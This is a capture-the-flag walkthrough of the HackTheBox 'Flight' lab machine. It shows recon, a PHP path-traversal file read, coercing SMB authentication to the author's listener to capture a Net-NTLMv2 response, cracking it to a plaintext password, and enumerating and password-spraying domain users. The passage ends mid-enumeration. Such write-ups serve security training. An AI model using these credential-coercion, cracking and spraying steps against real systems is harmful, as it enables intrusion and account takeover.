






# HTB: Flight

[htb-flight](/tags#htb-flight ) [hackthebox](/tags#hackthebox )
[ctf](/tags#ctf ) [nmap](/tags#nmap ) [subdomain](/tags#subdomain )
[crackmapexec](/tags#crackmapexec ) [windows](/tags#windows ) [php](/tags#php
) [apache](/tags#apache ) [feroxbuster](/tags#feroxbuster ) [file-
read](/tags#file-read ) [directory-traversal](/tags#directory-traversal )
[responder](/tags#responder ) [net-ntlmv2](/tags#net-ntlmv2 ) [password-
spray](/tags#password-spray ) [lookupsid](/tags#lookupsid ) [rpc](/tags#rpc )
[ntlm-theft](/tags#ntlm-theft ) [runascs](/tags#runascs ) [iis](/tags#iis )
[webshell](/tags#webshell ) [aspx](/tags#aspx ) [rubeus](/tags#rubeus )
[machine-account](/tags#machine-account ) [dcsync](/tags#dcsync )
[secretsdump](/tags#secretsdump ) [psexec](/tags#psexec )  
  
May 6, 2023

HTB: Flight

Flight is a Windows-centered box that puts a unique twist by showing both a
Apache and PHP website as well as an internal IIS / ASPX website. I’ll get the
PHP site to connect back to my server on SMB, leaking a Net NTLMv2, and crack
that to get a plaintext password. I’ll get a list of domain users over RPC,
and password spray that password to find another user using the same password.
That user has write access to a share, where I’ll drop files designed to
provoke another auth back to my server to catch another Net NTLMv2. That user
has access to the new IIS site, and can write an ASPX webshell to get a shell
as the IIS account. As a service account, it will authenticate over the
network as the machine account. I’ll abuse that to get the administrator’s
hash and from there a shell.

## Box Info

Name | [Flight](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fflight)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fflight)  
---|---  
Release Date | [05 Nov 2022](https://twitter.com/hackthebox_eu/status/1587855453358260233)  
Retire Date | 06 May 2023  
OS | Windows   
Base Points | Hard [40]  
Rated Difficulty |   
Radar Graph |   
 | 00:28:57[ jkr](https://app.hackthebox.com/users/77141)  
  
 | 00:51:05[ xct](https://app.hackthebox.com/users/13569)  
  
Creator | [ Geiseric](https://app.hackthebox.com/users/184611)  
  
  
## Recon

### nmap

`nmap` finds a bunch of open TCP ports, including DNS (53), HTTP (80),
Kerberos (88), LDAP (389, 636), and other Windows ports:

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.187
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-01 10:19 EDT
    Nmap scan report for flight.htb (10.10.11.187)
    Host is up (0.087s latency).
    Not shown: 65519 filtered ports
    PORT      STATE SERVICE
    53/tcp    open  domain
    80/tcp    open  http
    88/tcp    open  kerberos-sec
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    389/tcp   open  ldap
    445/tcp   open  microsoft-ds
    464/tcp   open  kpasswd5
    593/tcp   open  http-rpc-epmap
    636/tcp   open  ldapssl
    5985/tcp  open  wsman
    9389/tcp  open  adws
    49667/tcp open  unknown
    49673/tcp open  unknown
    49674/tcp open  unknown
    49694/tcp open  unknown
    
    Nmap done: 1 IP address (1 host up) scanned in 13.49 seconds
    oxdf@hacky$ nmap -sCV -p 53,80,88,135,139,389,445,464,593,636,5985,9389 10.10.11.187
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-01 10:21 EDT
    Nmap scan report for flight.htb (10.10.11.187)
    Host is up (0.085s latency).
    
    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain?
    | fingerprint-strings: 
    |   DNSVersionBindReqTCP: 
    |     version
    |_    bind
    80/tcp   open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
    |_http-title: g0 Aviation
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-01 21:21:38Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    9389/tcp open  mc-nmf        .NET Message Framing
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port53-TCP:V=7.80%I=7%D=5/1%Time=644FCAF6%P=x86_64-pc-linux-gnu%r(DNSVe
    SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
    SF:04bind\0\0\x10\0\x03");
    Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: 6h59m59s
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2023-05-01T21:24:00
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 244.88 seconds
    

This looks like a Windows DC with the domain name `flight.htb`, and a hostname
of G0.

Lots of ports to potentially look at. I’ll prioritize SMB and Web, and check
in with LDAP, Kerberos, and DNS if I don’t find what I need from them.

### Subdomain Fuzz

Given the use of DNS names, I’ll fuzz port 80 for potential subdomains with
`wfuzz`:

    
    
    oxdf@hacky$ wfuzz -u http://10.10.11.187 -H "Host: FUZZ.flight.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 7069
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.11.187/
    Total requests: 4989
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    
    000000624:   200        90 L     412 W    3996 Ch     "school"
    
    Total time: 46.45146
    Processed Requests: 4989
    Filtered Requests: 4988
    Requests/sec.: 107.4024
    

I’ll add both to my `/etc/hosts` file along with the host name:

    
    
    10.10.11.187 flight.htb school.flight.htb g0.flight.htb
    

### SMB - TCP 445

`crackmapexec` confirms the domain and host name:

    
    
    oxdf@hacky$ crackmapexec smb 10.10.11.187
    SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
    

It isn’t able to get any information about shares:

    
    
    oxdf@hacky$ crackmapexec smb 10.10.11.187 --shares
    SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.187    445    G0               [-] Error enumerating shares: SMB SessionError: STATUS_USER_SESSION_DELETED(The remote user session has been deleted.)
    oxdf@hacky$ crackmapexec smb 10.10.11.187 --shares -u 0xdf -p ''
    SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.187    445    G0               [-] flight.htb\0xdf: STATUS_LOGON_FAILURE 
    

### flight.htb - TCP 80

#### Site

The site is for an airline:

Most the links are dead or just lead back to this page.

#### Tech Stack

The “AIRLINES International Travel” link leads to `index.html`, which suggests
this is a static site.

The response headers don’t give much additional information either, other than
confirming what `nmap` also found - the web server is Apache:

    
    
    HTTP/1.1 200 OK
    Date: Fri, 28 Oct 2022 17:35:08 GMT
    Server: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
    Last-Modified: Thu, 24 Feb 2022 05:58:10 GMT
    ETag: "1b9d-5d8bd444f0080"
    Accept-Ranges: bytes
    Content-Length: 7069
    Connection: close
    Content-Type: text/html
    

There’s also a PHP version in that server header, which suggests PHP is
enabled.

#### Directory Brute Force

I’ll run `feroxbuster` against the site, and include `-x html,php` since I
know the site is using `.html` extensions and potentially PHP:

    
    
    oxdf@hacky$ feroxbuster -u http://flight.htb -x html,php
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.7.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://flight.htb
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.7.1
     💲  Extensions            │ [html, php]
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    301      GET        9l       30w      329c http://flight.htb/js => http://flight.htb/js/
    200      GET      154l      530w     7069c http://flight.htb/
    301      GET        9l       30w      333c http://flight.htb/images => http://flight.htb/images/
    301      GET        9l       30w      330c http://flight.htb/css => http://flight.htb/css/
    403      GET        9l       30w      299c http://flight.htb/.html
    403      GET       11l       47w      418c http://flight.htb/webalizer
    301      GET        9l       30w      333c http://flight.htb/Images => http://flight.htb/Images/
    200      GET      154l      530w     7069c http://flight.htb/index.html
    403      GET       11l       47w      418c http://flight.htb/phpmyadmin
    301      GET        9l       30w      330c http://flight.htb/CSS => http://flight.htb/CSS/
    301      GET        9l       30w      329c http://flight.htb/JS => http://flight.htb/JS/
    301      GET        9l       30w      329c http://flight.htb/Js => http://flight.htb/Js/
    301      GET        9l       30w      330c http://flight.htb/Css => http://flight.htb/Css/
    301      GET        9l       30w      333c http://flight.htb/IMAGES => http://flight.htb/IMAGES/
    403      GET       11l       47w      418c http://flight.htb/licenses
    403      GET       11l       47w      418c http://flight.htb/server-status
    200      GET      154l      530w     7069c http://flight.htb/Index.html
    403      GET        9l       30w      299c http://flight.htb/con
    403      GET        9l       30w      299c http://flight.htb/con.html
    403      GET        9l       30w      299c http://flight.htb/con.php
    403      GET        9l       30w      299c http://flight.htb/aux
    403      GET        9l       30w      299c http://flight.htb/aux.html
    403      GET        9l       30w      299c http://flight.htb/aux.php
    403      GET        9l       30w      299c http://flight.htb/error%1F_log
    403      GET        9l       30w      299c http://flight.htb/error%1F_log.html
    403      GET        9l       30w      299c http://flight.htb/error%1F_log.php
    403      GET        9l       30w      299c http://flight.htb/prn
    403      GET        9l       30w      299c http://flight.htb/prn.html
    403      GET        9l       30w      299c http://flight.htb/prn.php
    403      GET       11l       47w      418c http://flight.htb/server-info
    [####################] - 2m    990000/990000  0s      found:30      errors:48     
    [####################] - 2m     90000/90000   535/s   http://flight.htb 
    [####################] - 0s     90000/90000   0/s     http://flight.htb/js => Directory listing (add -e to scan)
    [####################] - 2m     90000/90000   535/s   http://flight.htb/ 
    [####################] - 0s     90000/90000   0/s     http://flight.htb/images => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://flight.htb/css => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://flight.htb/Images => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://flight.htb/CSS => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://flight.htb/JS => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://flight.htb/Js => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://flight.htb/Css => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://flight.htb/IMAGES => Directory listing (add -e to scan)
    

`/phpmyadmin` is on the box, but returns a forbidden on visiting:

`con`, `aux`, and `prn` all return 403 for `.php`, but also these return the
same for `/con` and `/con.html`. It seems more like an Apache rule match than
an actual page.

Nothing else of interest.

### school.flight.htb

#### Site

The site is for an aviation school:

The site is all placeholder text and a few page links, but nothing
interesting.

#### Tech Stack

The main page is `index.php`. In fact, the other pages that have content have
URLs of the form `http://school.flight.htb/index.php?view=about.html`.

It’s a very common PHP structure where different pages on a site all use
`index.php` that defines the header and footer and menus, and then some
parameter specifying what page to include as the body. These are often
vulnerable to path traversal (reading outside the current directory) and local
file include (including PHP code that is executed) vulnerabilities.

#### Directory Brute Force

`feroxbuster` finds nothing interesting:

    
    
    oxdf@hacky$ feroxbuster -u http://school.flight.htb -x html,php
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.7.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://school.flight.htb
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.7.1
     💲  Extensions            │ [html, php]
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    200      GET       91l      412w     3996c http://school.flight.htb/
    301      GET        9l       30w      347c http://school.flight.htb/images => http://school.flight.htb/images/
    403      GET        9l       30w      306c http://school.flight.htb/.html
    301      GET        9l       30w      347c http://school.flight.htb/styles => http://school.flight.htb/styles/
    200      GET       45l      498w     3618c http://school.flight.htb/blog.html
    200      GET       22l      238w     1689c http://school.flight.htb/about.html
    200      GET       54l      299w     2683c http://school.flight.htb/home.html
    403      GET       11l       47w      425c http://school.flight.htb/webalizer
    301      GET        9l       30w      347c http://school.flight.htb/Images => http://school.flight.htb/Images/
    200      GET       91l      412w     3996c http://school.flight.htb/index.php
    403      GET       11l       47w      425c http://school.flight.htb/phpmyadmin
    301      GET        9l       30w      347c http://school.flight.htb/Styles => http://school.flight.htb/Styles/
    200      GET       54l      299w     2683c http://school.flight.htb/Home.html
    200      GET       45l      498w     3618c http://school.flight.htb/Blog.html
    200      GET       22l      238w     1689c http://school.flight.htb/About.html
    301      GET        9l       30w      347c http://school.flight.htb/IMAGES => http://school.flight.htb/IMAGES/
    403      GET       11l       47w      425c http://school.flight.htb/licenses
    403      GET       11l       47w      425c http://school.flight.htb/server-status
    200      GET       91l      412w     3996c http://school.flight.htb/Index.php
    403      GET        9l       30w      306c http://school.flight.htb/con
    403      GET        9l       30w      306c http://school.flight.htb/con.html
    403      GET        9l       30w      306c http://school.flight.htb/con.php
    200      GET       54l      299w     2683c http://school.flight.htb/HOME.html
    200      GET       45l      498w     3618c http://school.flight.htb/BLOG.html
    403      GET        9l       30w      306c http://school.flight.htb/aux
    403      GET        9l       30w      306c http://school.flight.htb/aux.html
    403      GET        9l       30w      306c http://school.flight.htb/aux.php
    200      GET       22l      238w     1689c http://school.flight.htb/ABOUT.html
    301      GET        9l       30w      347c http://school.flight.htb/STYLES => http://school.flight.htb/STYLES/
    403      GET        9l       30w      306c http://school.flight.htb/error%1F_log
    403      GET        9l       30w      306c http://school.flight.htb/error%1F_log.html
    403      GET        9l       30w      306c http://school.flight.htb/error%1F_log.php
    403      GET        9l       30w      306c http://school.flight.htb/prn
    403      GET        9l       30w      306c http://school.flight.htb/prn.html
    403      GET        9l       30w      306c http://school.flight.htb/prn.php
    403      GET       11l       47w      425c http://school.flight.htb/server-info
    [####################] - 2m    720000/720000  0s      found:36      errors:0      
    [####################] - 2m     90000/90000   543/s   http://school.flight.htb 
    [####################] - 2m     90000/90000   542/s   http://school.flight.htb/ 
    [####################] - 0s     90000/90000   0/s     http://school.flight.htb/images => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://school.flight.htb/styles => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://school.flight.htb/Images => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://school.flight.htb/Styles => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://school.flight.htb/IMAGES => Directory listing (add -e to scan)
    [####################] - 0s     90000/90000   0/s     http://school.flight.htb/STYLES => Directory listing (add -e to scan)
    
    

The same false positive blocks for `con`, `aux`, and `prn` show up here.

## Auth as svc_apache

### File Read

It’s a very common PHP structure where different pages on a site all use
`index.php` with some parameter specifying what page to include. These are
often vulnerable to path traversal (reading outside the current directory) and
local file include (including PHP code that is executed) vulnerabilities.

On a Linux box, I’d try to read `/etc/passwd`. Since this is Windows, I’ll try
`C:\windows\system32\drivers\etc\hosts`, but it returns an error:

In fact, just having just `view=\` results in the same blocked response.
`view=.` returns nothing, but anything with `..` in it also results in the
blocked message.

I can try with `/` instead of `\`, make sure to use an absolute path, and it
works:

[_Click for full
size image_](../img/image-20221028101354463.png)

Nothing interesting in that file, but it proves directory traversal and file
read. It’s not yet clear if it’s an include or just a read.

### RFI Test

#### HTTP

To figure out if it’s a read or include and if remote files are enabled, I’ll
try a remote read over HTTP. This will quickly tell me if remote files are
allowed, and if so, show if the site is using `include` or
`file_get_contents`.

I’ll create a dummy PHP file named `poc.txt`:

    
    
    <?php echo '0xdf was here'; ?>
    

I’ll see if the server will load it remotely over HTTP by starting a local
HTTP server and trying to include it. It works:

[_Click for full
size image_](../img/image-20221025115340005.png)

Unfortunately for me, its the text of the file, not processed as PHP. The
source must be using `file_get_contents` to load the contents, not `include`.

#### SMB

Another way to include a file is over SMB. It won’t get anything that HTTP
couldn’t get as far as execution, but the user will try to authenticate, and I
could capture a [NetNTLMv2 challenge/response](/2019/01/13/getting-net-ntlm-
hases-from-windows.html) (not really a hash, but often called one). I’ll start
responder with `sudo responder -I tun0`, and then visit
`http://school.flight.htb/index.php?view=//10.10.14.6/share/poc.txt`. There’s
a hit:

    
    
     [SMB] NTLMv2-SSP Client   : ::ffff:10.10.11.187
     [SMB] NTLMv2-SSP Username : flight\svc_apache
     [SMB] NTLMv2-SSP Hash     : svc_apache::flight:94b09791c5d8b6d8:C0D8ADF3A8B29E39F6A26C6D6F403994:010100000000000000075CBED7EAD8015F3F9144FFADCA9900000000020008004A0031004E00560001001E00570049004E002D003700470057005600330057004B00330030004100460004003400570049004E002D003700470057005600330057004B0033003000410046002E004A0031004E0056002E004C004F00430041004C00030014004A0031004E0056002E004C004F00430041004C00050014004A0031004E0056002E004C004F00430041004C000700080000075CBED7EAD80106000400020000000800300030000000000000000000000000300000B1315E28BC96528147F3929B329DC4FE9D27ADEB96DF3BCF9F6C892CCB4443D80A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0036000000000000000000
     [*] Skipping previously captured hash for flight\svc_apache
     [*] Skipping previously captured hash for flight\svc_apache
    

### Crack NetNTLMv2

`hashcat` will find the password used by the svc_apache account,
“S@Ss!K@*t13”:

    
    
    $ hashcat svc_apache-net-ntlmv2 /usr/share/wordlists/rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
    
    5600 | NetNTLMv2 | Network Protocol
    ...[snip]...
    SVC_APACHE::flight:0cd401f744dc6789:942925afebb884b78422ff2ac6dd0360:0101000000000000008aab2c8ae8d801ba25f698cd3ec72e0000000002000800470049004a00530001001e00570049004e002d005400550036005300530039004800320047004500380004003400570049004e002d00540055003600530053003900480032004700450038002e00470049004a0053002e004c004f00430041004c0003001400470049004a0053002e004c004f00430041004c0005001400470049004a0053002e004c004f00430041004c0007000800008aab2c8ae8d80106000400020000000800300030000000000000000000000000300000c90b53f12038687fbdc8e7c9bb3cc0b3c0e3b2d9e94a54d0219f0e39d3d68c9f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0036000000000000000000:S@Ss!K@*t13
    ...[snip]...
    

These creds work over SMB:

    
    
    oxdf@hacky$ crackmapexec smb flight.htb -u svc_apache -p 'S@Ss!K@*t13'
    SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
    SMB         flight.htb      445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
    

## Auth as S.Moon

### SMB Enumeration

#### Shares

`crackmapexec` shows the shares, including the standard administrative shares
(`ADMIN$`, `C$`, and `IPC$`), the standard shares for a Windows DC (`NETLOGON`
and `SYSVOL`), and three nonstandard shares (`Shared`, `Users`, and `Web`):

    
    
    oxdf@hacky$ crackmapexec smb flight.htb -u svc_apache -p 'S@Ss!K@*t13' --shares
    SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
    SMB         flight.htb      445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
    SMB         flight.htb      445    G0               [+] Enumerated shares
    SMB         flight.htb      445    G0               Share           Permissions     Remark
    SMB         flight.htb      445    G0               -----           -----------     ------
    SMB         flight.htb      445    G0               ADMIN$                          Remote Admin
    SMB         flight.htb      445    G0               C$                              Default share
    SMB         flight.htb      445    G0               IPC$            READ            Remote IPC
    SMB         flight.htb      445    G0               NETLOGON        READ            Logon server share 
    SMB         flight.htb      445    G0               Shared          READ            
    SMB         flight.htb      445    G0               SYSVOL          READ            Logon server share 
    SMB         flight.htb      445    G0               Users           READ            
    SMB         flight.htb      445    G0               Web             READ
    

I’ll take a look in`NETLOGON` and `SYSVOL`, but nothing abnormal or useful
jumps out.

#### Users

The `Users` share looks like it’s the `C:\Users` directory on Flight:

    
    
    oxdf@hacky$ smbclient //flight.htb/users -U svc_apache 'S@Ss!K@*t13'
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                  DR        0  Thu Sep 22 20:16:56 2022
      ..                                 DR        0  Thu Sep 22 20:16:56 2022
      .NET v4.5                           D        0  Thu Sep 22 19:28:03 2022
      .NET v4.5 Classic                   D        0  Thu Sep 22 19:28:02 2022
      Administrator                       D        0  Fri Oct 21 18:49:50 2022
      All Users                       DHSrn        0  Sat Sep 15 07:28:48 2018
      C.Bum                               D        0  Thu Sep 22 20:08:23 2022
      Default                           DHR        0  Tue Jul 20 19:20:24 2021
      Default User                    DHSrn        0  Sat Sep 15 07:28:48 2018
      desktop.ini                       AHS      174  Sat Sep 15 07:16:48 2018
      Public                             DR        0  Tue Jul 20 19:23:25 2021
      svc_apache                          D        0  Fri Sep 23 07:10:00 2022
    
                    7706623 blocks of size 4096. 3749019 blocks available
    

There’s nothing interesting in `svc_apache`, and svc_apache can’t get into any
of the other directories.

#### Shared

The `Shared` share looks to be empty:

    
    
    oxdf@hacky$ smbclient //flight.htb/shared -U svc_apache 'S@Ss!K@*t13'
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Fri Oct 28 20:21:28 2022
      ..                                  D        0  Fri Oct 28 20:21:28 2022
    
                    7706623 blocks of size 4096. 3749019 blocks available
    

#### Web

The `Web` share has folders for the two websites:

    
    
    oxdf@hacky$ smbclient //flight.htb/web -U svc_apache 'S@Ss!K@*t13'
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Fri Oct 28 21:17:00 2022
      ..                                  D        0  Fri Oct 28 21:17:00 2022
      flight.htb                          D        0  Fri Oct 28 21:17:00 2022
      school.flight.htb                   D        0  Fri Oct 28 21:17:00 2022
    
                    7706623 blocks of size 4096. 3749019 blocks available
    

Looking around shows both are basically static websites, with no database or
creds or anything useful at this point. I’ll also confirm that svc_apache
can’t write to any of these folders.

### Password Spray

#### List Domain Users

I was able to get another user name, C.Bum, from the `users` share, but there
may be more domain users. I’ll use `lookupsid.py` from
[Impacket](https://github.com/SecureAuthCorp/impacket) to get a list of more:

    
    
    oxdf@hacky$ lookupsid.py flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation
    
    [*] Brute forcing SIDs at flight.htb
    [*] StringBinding ncacn_np:flight.htb[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
    498: flight\Enterprise Read-only Domain Controllers (SidTypeGroup)
    500: flight\Administrator (SidTypeUser)
    501: flight\Guest (SidTypeUser)
    502: flight\krbtgt (SidTypeUser)
    512: flight\Domain Admins (SidTypeGroup)
    513: flight\Domain Users (SidTypeGroup)
    514: flight\Domain Guests (SidTypeGroup)
    515: flight\Domain Computers (SidTypeGroup)
    516: flight\Domain Controllers (SidTypeGroup)
    517: flight\Cert Publishers (SidTypeAlias)
    518: flight\Schema Admins (SidTypeGroup)
    519: flight\Enterprise Admins (SidTypeGroup)
    520: flight\Group Policy Creator Owners (SidTypeGroup)
    521: flight\Read-only Domain Controllers (SidTypeGroup)
    522: flight\Cloneable Domain Controllers (SidTypeGroup)
    525: flight\Protected Users (SidTypeGroup)
    526: flight\Key Admins (SidTypeGroup)
    527: flight\Enterprise Key Admins (SidTypeGroup)
    553: flight\RAS and IAS Servers (SidTypeAlias)
    571: flight\Allowed RODC Password Replication Group (SidTypeAlias)
    572: flight\Denied RODC Password Replication Group (SidTypeAlias)
    1000: flight\Access-Denied Assistance Users (SidTypeAlias)
    1001: flight\G0$ (SidTypeUser)
    1102: flight\DnsAdmins (SidTypeAlias)
    1103: flight\DnsUpdateProxy (SidTypeGroup)
    1602: flight\S.Moon (SidTypeUser)
    1603: flight\R.Cold (SidTypeUser)
    1604: flight\G.Lors (SidTypeUser)
    1605: flight\L.Kein (SidTypeUser)
    1606: flight\M.Gold (SidTypeUser)
    1607: flight\C.Bum (SidTypeUser)
    1608: flight\W.Walker (SidTypeUser)
    1609: flight\I.Francis (SidTypeUser)
    1610: flight\D.Truff (SidTypeUser)
    1611: flight\V.Stevens (SidTypeUser)
    1612: flight\svc_apache (SidTypeUser)
    1613: flight\O.Possum (SidTypeUser)
    1614: flight\WebDevs (SidTypeGroup)
    

I’ll use some Bash foo to get that into a list of usernames:

    
    
    oxdf@hacky$ lookupsid.py flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
    Administrator
    Guest
    krbtgt
    G0$
    S.Moon
    R.Cold
    G.Lors
    L.Kein
    M.Gold
    C.Bum
    W.Walker
    I.Francis
    D.Truff
    V.Stevens
    svc_apache
    O.Possum
    

`crackmapexec` can also pull this list with the :

    
    
    oxdf@hacky$ crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb --users
    SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
    SMB         10.10.11.187    445    G0               [+] Enumerated domain user(s)
    SMB         10.10.11.187    445    G0               flight.htb\O.Possum                       badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\svc_apache                     badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\V.Stevens                      badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\D.Truff                        badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\I.Francis                      badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\W.Walker                       badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\C.Bum                          badpwdcount: 0 baddpwdtime: 2022-09-22 21:50:15.815981+00:00
    SMB         10.10.11.187    445    G0               flight.htb\M.Gold                         badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\L.Kein                         badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\G.Lors                         badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\R.Cold                         badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\S.Moon                         badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\krbtgt                         badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\Guest                          badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
    SMB         10.10.11.187    445    G0               flight.htb\Administrator                  badpwdcount: 0 baddpwdtime: 2022-11-01 02:58:04.270580+00:00
    

#### Spray

It’s not uncommon for someone in charge of a service account to reuse their
password with that service account. I’ll see if any of the accounts above
share that password with `crackmapexec`. I always like to use the `--continue-
on-success` in case more than one match:

[_Click for full
size image_](../img/image-20221028102112281.png)

S.Moon uses that same password!

## Auth as C.Bum

### SMB

In addition to the read access, S.Moon has write access to `Shared`:

    
    
    oxdf@hacky$ crackmapexec smb flight.htb -u S.Moon -p 'S@Ss!K@*t13' --shares
    SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
    SMB         flight.htb      445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
    SMB         flight.htb      445    G0               [+] Enumerated shares
    SMB         flight.htb      445    G0               Share           Permissions     Remark
